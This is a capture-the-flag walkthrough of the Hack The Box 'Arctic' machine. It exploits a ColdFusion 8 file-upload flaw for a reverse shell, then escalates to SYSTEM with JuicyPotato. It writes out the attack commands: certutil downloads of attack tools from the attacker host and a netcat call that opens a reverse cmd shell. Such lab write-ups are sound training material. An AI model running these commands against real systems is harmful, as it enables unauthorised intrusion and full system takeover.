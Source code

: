 # Arctic [HTB](https://app.hackthebox.com/machines/Arctic)
![arctic-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/arctic-01.png)


## recon 

Lets add an entry to `/etc/hosts` for this box: 

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/hosts-02.png)


Now we can start enumerating with nmap:

`nmap -sC -sV -A -p- acrtic.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/nmap-res-03.png)

We have the following:

+ An RPC endpoint mapper on port 135, and another RPC related port on 49154.
+ A JRun HTTP server on port 8500.


Lets go check the site. 


### JRun on port 8500


If we open our browser and navigate towards `http://arctic.htb:8500`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/site-04.png)

We can see we have two folders. If go into the first folder, we can see an `adminstrator` folder:

![admin-folder-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-folder-05.png)

Which leads to an admin portal:

![admin-portal-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-portal-06.png)

We can see this tech is Adobe ColdFusion 8. 

ColdFusion Markup Language is an interpreted language utilizing a Java backend. It allows direct 
access to Java via its cfscript tags, while simultaneously offering a simple web wrapper. 
It is vulnerable to a variety of attacks, but mainly Local File Disclosure (LFD) and SQL injection. 

If we search ColdFUsion 8 on google, we can quickly find a [public exploit](https://www.exploit-db.com/exploits/50057): 

![exploit-db-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/exploit-db-07.png)


Apperatnly there is an upload file feature on the application in:

`/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`


The exploit generates a `java/jsp_shell_reverse_tcp` payload using `msfvenom`, and saves it to a file.
Then, it sends the file to the server in a specific form. Finally it navigates to the reverse shell's
location to execute it while setting up a listener. Lets try it out. 

After downloading it, make sure to update your lhost/rhost information in the exploit:

![edit-exploit-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/edit-exploit-08.png)

We should be good to go, lets execute with:

`python3 rce_exploit.py`

![execute-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/execute-09.png)


At the end you should get a shell:

![shell-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/shell-10.png)



## Privilege Escalation


Lets run `systeminfo` on our tagret:

![sysinfo-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/sysinfo-11.png)


We can see the target is a:

+ Windows 2008 R2 server standard.  
+ 6.1.7600 N/A Build 7600
+ X64 arhc 

After Following [sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html) checklist for a bit, i found nothing meaningful. 

I also tried running [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) but without success.

So i decided to look at our user's privileges with `whoami  /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/privs-12.png)


Looks like we have `SeImpersonatePrivilege` enabled. We might be able to expoit this with a [potato attack](https://github.com/ohpe/juicy-potato). 

+ Download the exploit from [here](https://github.com/ohpe/juicy-potato/releases).

+ Host the exploit to the target by starting a python server with:

`python3 -m http.server 80`

+ Transfer the exploit to the target with:

`certutil -urlcache -f http://10.10.14.20/JuicyPotato.exe potato.exe`

+ Tranfer a copy of `/usr/share/windows-resources/binaries/nc.exe` to the target as well. 

`certutil -urlcache -f http://10.10.14.20/nc.exe nc.exe`

+ Set up the local listener: 

`nc -lnvp 9009`

+ Execute `potato.exe -l 9009 -p C:\windows\system32\cmd.exe -a "/c c:\\Users\tolis\nc.exe -e cmd.
exe 10.10.14.20 9009" -t *`

+ Get system: 

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/root-13.png)
